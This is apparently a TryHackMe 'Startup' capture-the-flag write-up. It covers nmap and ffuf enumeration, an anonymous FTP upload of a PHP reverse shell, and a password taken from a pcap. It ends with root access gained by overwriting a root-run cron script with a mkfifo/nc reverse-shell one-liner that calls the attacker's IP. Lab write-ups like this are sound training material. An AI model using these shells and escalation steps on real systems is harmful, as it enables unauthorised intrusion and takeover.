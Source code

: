 # Startup

**IP:** 10.10.9.176  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 07/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.9.176 -oA nmap/Startup
```

| Port | Service | Version |
|------|---------|---------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 |
| 80 | http | Apache httpd 2.4.18 |

## Enumeration

Found a `files` directory on the webserver with an `ftp` directory.
```bash
ffuf -u http://10.10.9.176:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -s -fc 403 -e .php,.txt

files
```
![[Pasted image 20250607044842.png]]

## Exploitation

I logged in with `anonymous:anonymous` and uploaded a php reverse shell.
```bash
ftp 10.10.9.176 -i

Connected to 10.10.9.176.
220 (vsFTPd 3.0.3)
Name (10.10.9.176:wither): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php5
local: shell.php5

rlwrap nc -nvlp 9001

listening on [any] 9001 ...
connect to [10.23.121.106] from (UNKNOWN) [10.10.9.176] 55068
SOCKET: Shell has connected! PID: 2062

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

There was a `suspicious.pcapng` file, that I copied to the FTP server and downloaded.
```bash
pwd
/incidents

ls
suspicious.pcapng

cp suspicious.pcapng /var/www/html/files/ftp
```

The file revealed a user `lennie` and a potential password `c4ntg3t3n0ughsp1c3`.
![[Pasted image 20250607055516.png]]
User flag was in `/home/lennie/user.txt`.
```bash
cat /home/lennie/user.txt
```

## Privilege Escalation

There was a `planner.sh` in `/home/lennie/scripts` which ran `/etc/print.sh`.
```bash
ls scripts
planner.sh  startup_list.txt

cat scripts/planner.sh

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

cat /etc/print.sh

#!/bin/bash
echo "Done!"
```

`pspy64` showed that the script is ran as `root`
```bash
./pspy64
...
2025/06/07 11:31:01 CMD: UID=0     PID=1562   | /bin/bash /home/lennie/scripts/planner.sh 
...
```

I overwrote `/etc/print.sh` with a reverse shell.
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.23.121.106 9001 >/tmp/f' > /etc/print.sh
```

Opened up a listener and successfully got a shell as `root` the next time the script was ran by the system.
```bash
rlwrap nc -nvlp 9001

listening on [any] 9001 ...
connect to [10.23.121.106] from (UNKNOWN) [10.10.9.176] 55346
bash: cannot set terminal process group (22942): Inappropriate ioctl for
bash: no job control in this shell

root@startup:~# 
```

`root` flag was in `/root/root.txt`.
```bash
cat /root/root.txt
```

---
#nmap #ffuf #ftp-anon #pcap-analysis #pspy #cron-privesc #file-overwrite #reverseshell #linux-privesc #thm